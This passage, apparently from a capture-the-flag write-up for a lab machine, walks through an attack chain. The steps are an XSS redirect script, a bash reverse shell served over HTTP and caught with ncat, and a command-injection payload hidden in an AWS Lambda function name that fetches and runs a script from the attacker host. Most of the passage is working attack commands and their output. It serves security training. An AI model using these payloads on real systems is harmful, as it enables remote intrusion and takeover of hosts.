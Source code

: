 Next we have to create the javascript for the XSS wich redirects the user to the dashboard we've seen in the dockerfile.

`b.js`
```js
const look = () =>{
    document.location = 'http://127.0.0.1:8080';
};
look();
```

Now we can stand up a python webserver for the javascript payload and our reverse shell payload in `index.html`. We also listen with ncat to catch our reverse shell.

```
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

`index.html`
```
#!/bin/sh

bash -c 'bash -i >& /dev/tcp/10.10.14.70/443 0>&1'
```

```
$ sudo nc -lnvp 443
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
```

Now we can create a function app with the command injection payload in the name and quickly send the request for the XSS in burp.

```
$ aws lambda --endpoint=http://s3-testing.stacked.htb create-function --region eu-west-1 --function-name "api;curl\${IFS}10.10.14.70|sh;" --runtime nodejs8.10 --handler lambda.apiHandler --memory-size 128 --zip-file fileb://api-handler.zip --role arn:aws:iam::123456
:role/irrelevant
{
    "FunctionName": "api;curl${IFS}10.10.14.70|sh;",
    "FunctionArn": "arn:aws:lambda:us-east-1:000000000000:function:api;curl${IFS}10.10.14.70|sh;",
    "Runtime": "nodejs8.10",
    "Role": "arn:aws:iam::123456:role/irrelevant",
    "Handler": "lambda.apiHandler",                                                                                                                                                                                                                                               "CodeSize": 405,
    "Description": "",
    "Timeout": 3,
    "MemorySize": 128,
    "LastModified": "2021-09-19T11:14:20.246+0000",
    "CodeSha256": "cf7lCPC48yh6PnJLXPm9O1nR7PoGIQ1sd7V2loQc2dY=",
    "Version": "$LATEST",
    "VpcConfig": {},
    "TracingConfig": {
        "Mode": "PassThrough"
    },
    "RevisionId": "37b8ed40-be33-484a-899a-57105cb09413",
    "State": "Active",
    "LastUpdateStatus": "Successful",
    "PackageType": "Zip"
}
```
